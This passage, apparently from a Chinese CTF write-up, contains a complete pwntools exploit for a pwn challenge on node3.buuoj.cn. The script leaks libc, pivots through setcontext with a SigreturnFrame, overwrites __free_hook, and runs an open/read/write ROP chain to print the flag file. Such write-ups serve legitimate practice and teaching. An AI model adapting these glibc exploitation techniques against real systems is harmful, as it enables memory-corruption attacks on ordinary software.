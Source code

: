 最终的 exp 如下：

```
from pwn import *
context.arch = 'amd64'
context.log_level = 'debug'
p = remote('node3.buuoj.cn', 29644) 
libc = ELF('./libc.so.6') 

def exp():
    p.recvuntil(b"GIFT: ")
    stdout_addr = int(p.recvuntil(b'\n', drop = True), 16)
    log.info('stdout addr leak: ' + hex(stdout_addr))
    libc_base = stdout_addr - libc.sym['_IO_2_1_stdout_']
    log.success('libc base: ' + hex(libc_base))

    pop_rdi_ret = libc_base + libc.search(asm('pop rdi ; ret')).__next__()
    pop_rsi_ret = libc_base + libc.search(asm('pop rsi ; ret')).__next__()
    pop_rdx_pop_rbx_ret = libc_base + libc.search(asm('pop rdx ; pop rbx ; ret')).__next__()

    fake_frame = SigreturnFrame()
    fake_frame['uc_stack.ss_size'] = libc_base + libc.sym['setcontext'] + 61
    fake_frame.rdi = 0
    fake_frame.rsi = libc_base + libc.sym['__free_hook']
    fake_frame.rdx = 0x200
    fake_frame.rsp = libc_base + libc.sym['__free_hook'] + 8
    fake_frame.rip = libc_base + libc.sym['read']

    flag_addr = libc_base + libc.sym['__free_hook']
    orw = b'./flag\x00'.ljust(8, b'\x00')
    orw += p64(pop_rdi_ret) + p64(flag_addr) + p64(pop_rsi_ret) + p64(4) + p64(libc_base + libc.sym['open'])
    orw += p64(pop_rdi_ret) + p64(3) + p64(pop_rsi_ret) + p64(flag_addr) + p64(pop_rdx_pop_rbx_ret) + p64(0x100) + p64(0) + p64(libc_base + libc.sym['read'])
    orw += p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_ret) + p64(flag_addr) + p64(pop_rdx_pop_rbx_ret) + p64(0x100) + p64(0) + p64(libc_base + libc.sym['write'])

    payload = p64(libc_base + 0x154B20) + p64(libc_base + libc.sym['__free_hook'] + 0x28) + p64(0) * 2 + p64(libc_base + libc.sym['setcontext'] + 61)
    payload += bytes(fake_frame)

    p.recvuntil(b"You can write a byte anywhere")
    p.send(p64(libc_base + 0x1ea2d0 + 1))
    p.recvuntil(b"And what?")
    p.send(p8(0xff))
    p.recvuntil(b"Offset:")
    p.sendline(str(2280))
    p.recvuntil(b"Content:")
    p.send(p64(libc_base + libc.sym['__free_hook']))
    p.recvuntil(b"size:")
    p.sendline(str(0x1600))
    p.recvuntil(b">>")
    p.send(payload)
    sleep(1)
    p.send(orw)
    p.interactive()

if __name__ == '__main__':
    exp() 
```
